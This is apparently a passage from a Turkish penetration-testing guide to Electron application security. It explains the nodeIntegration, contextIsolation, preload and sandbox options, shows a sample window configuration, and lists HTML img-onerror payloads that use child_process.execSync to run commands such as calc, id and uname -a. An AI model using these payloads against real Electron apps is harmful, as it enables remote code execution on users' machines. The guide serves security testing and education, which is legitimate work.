 Electron uygulaması, Node apileri aracılığıyla **cihazı erişebilir**, ancak bunu önlemek için yapılandırılabilir:

* **`nodeIntegration`** - varsayılan olarak `kapalıdır`. Açık olduğunda, renderer process'ten node özelliklerine erişime izin verir.
* **`contextIsolation`** - varsayılan olarak `açıktır`. Kapalı olduğunda, main ve renderer süreçleri izole edilmez.
* **`preload`** - varsayılan olarak boştur.
* [**`sandbox`**](https://docs.w3cub.com/electron/api/sandbox-option) - varsayılan olarak kapalıdır. NodeJS'in gerçekleştirebileceği eylemleri kısıtlar.
* Workers'da Node Entegrasyonu
* **`nodeIntegrationInSubframes`** - varsayılan olarak `kapalıdır`.
* Eğer **`nodeIntegration`** **etkinleştirilirse**, bu, Electron uygulaması içinde **iframe'lerde** yüklü web sayfalarında **Node.js API'lerinin** kullanılmasına izin verir.
* Eğer **`nodeIntegration`** **devre dışı bırakılırsa**, o zaman preloads iframe içinde yüklenecektir.

Yapılandırma örneği:
```javascript
const mainWindowOptions = {
title: 'Discord',
backgroundColor: getBackgroundColor(),
width: DEFAULT_WIDTH,
height: DEFAULT_HEIGHT,
minWidth: MIN_WIDTH,
minHeight: MIN_HEIGHT,
transparent: false,
frame: false,
resizable: true,
show: isVisible,
webPreferences: {
blinkFeatures: 'EnumerateDevices,AudioOutputDevices',
nodeIntegration: false,
contextIsolation: false,
sandbox: false,
nodeIntegrationInSubFrames: false,
preload: _path2.default.join(__dirname, 'mainScreenPreload.js'),
nativeWindowOpen: true,
enableRemoteModule: false,
spellcheck: true
}
};
```
Bazı **RCE yükleri** [buradan](https://7as.es/electron/nodeIntegration\_rce.txt):
```html
Example Payloads (Windows):
<img src=x onerror="alert(require('child_process').execSync('calc').toString());">

Example Payloads (Linux & MacOS):
<img src=x onerror="alert(require('child_process').execSync('gnome-calculator').toString());">
<img src=x onerror="alert(require('child_process').execSync('/System/Applications/Calculator.app/Contents/MacOS/Calculator').toString());">
<img src=x onerror="alert(require('child_process').execSync('id').toString());">
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
<img src=x onerror="alert(require('child_process').execSync('uname -a').toString());">
```
### Trafiği Yakala
